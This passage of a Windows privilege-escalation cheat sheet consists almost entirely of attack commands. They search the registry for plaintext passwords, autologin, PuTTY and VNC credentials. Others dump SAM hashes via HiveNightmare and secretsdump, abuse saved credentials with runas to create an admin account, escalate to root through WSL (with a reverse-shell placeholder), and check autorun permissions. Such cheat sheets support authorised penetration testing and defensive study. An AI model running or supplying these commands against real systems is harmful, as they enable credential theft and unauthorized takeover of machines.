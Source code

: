 ##### Search registry

```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

##### mRemoteNG

- https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py

#### HiveNightmare

```
icacls C:\Windows\system32\config\sam
```

- https://github.com/GossiTheDog/HiveNightmare

```
python3 secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

#### Stored credentials

```
cmdkey /list
runas /user:Administrator /savecred "net user newadmin pass /add"
```

#### WSL

```
where /R c:\windows wsl.exe
where /R c:\windows bash.exe
```
```
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

#### Registry

##### Autorun 

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```
